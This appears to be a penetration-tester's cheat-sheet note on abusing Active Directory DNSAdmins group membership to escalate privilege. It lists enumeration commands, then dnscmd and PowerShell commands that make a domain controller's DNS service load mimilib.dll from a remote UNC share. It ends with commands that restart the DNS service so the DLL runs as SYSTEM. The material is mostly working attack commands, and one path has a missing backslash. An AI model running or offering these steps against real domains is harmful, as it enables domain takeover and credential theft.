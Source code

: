 ```yaml
---
category: Uncategorized
tags: []
---
```

#powershell #dnscmd #sc 
- DNSAdmins group member can load arbitrary DLLs with the privilege of the process called dns.exe. dns.exe runs as SYSTEM.
- If domain controlles in also running a DNS server, it can be abused to gain domain admin.
# Enumeration
- Powerview
```powershell
Get-NetGroupMember -GroupName "DNSAdmins"
```
- Active Directory Module
```powershell
Get-ADGroupMember -Identity DNSAdmins
```
# Exploitation
- Once, a member of this group is compromised, dnscmd.exe can be used (from RSAT DNS) to load the DLL.
```powershell
dnscmd <dc> /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll
```
- Using powershell to do the same (also requires RSAT DNS)
```powershell
$dnsettings = Get-DnsServerSetting -ComputerName <dc-name> -Verbose -All
$dnsettings.ServerLevelPluginDll = "\172.50.50.100\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName <dc> -Verbose
```
- Restart the DNS server
```powershell
sc \\<dc> stop dns
sc \\<dc> start dns
```